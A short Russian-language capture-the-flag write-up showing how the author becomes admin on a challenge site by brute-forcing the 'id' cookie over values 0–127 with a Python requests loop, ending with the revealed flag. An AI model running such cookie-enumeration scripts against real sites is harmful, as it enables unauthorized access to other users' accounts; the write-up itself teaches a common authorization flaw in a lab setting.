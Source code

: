 # Банка для печенья: Write-up #
Попадая на сайт, видим весьма информативное сообщение:

    Привет! Я написал небольшое приложение рассчитанное на 128 пользователей. Твоя цель - стать админом.

    Твой айди: 120

Так как мы не зря учились в школе, знаем азы английского языка и понимаем, что по английски печенье - cookie, лезем в `Inspect > Storage > Cookies` или просто в `Cookie-editor`.
И там видим как раз-таки параметр `id`. Судя по всему, так как пользователей 128, то id админа либо в этом диапазоне, либо имеет какой-либо специфичный id, проверка последнего ничего не дала - просто нет вариантов.

Поэтому работаем с первым вариантом: перебираем все id:

```python3
import requests

cookies = dict()
for i in range(128):
	cookies["id"] = str(i)
	resp = requests.get("http://62.173.140.174:16003/", cookies=cookies)
	print(resp.text)
	# Выход добавил позже, чтобы не было лишнего.
	if "CODEBY" in resp.text:
		break
```
И на каком-то id видим приятное сообщение:

    [ ROOT ] Поздравляю! Теперь ты админ (˵ • ᴗ - ˵ ) ✧

    Держи флаг: CODEBY{4v3r4g3_c00k13s_brut3r}
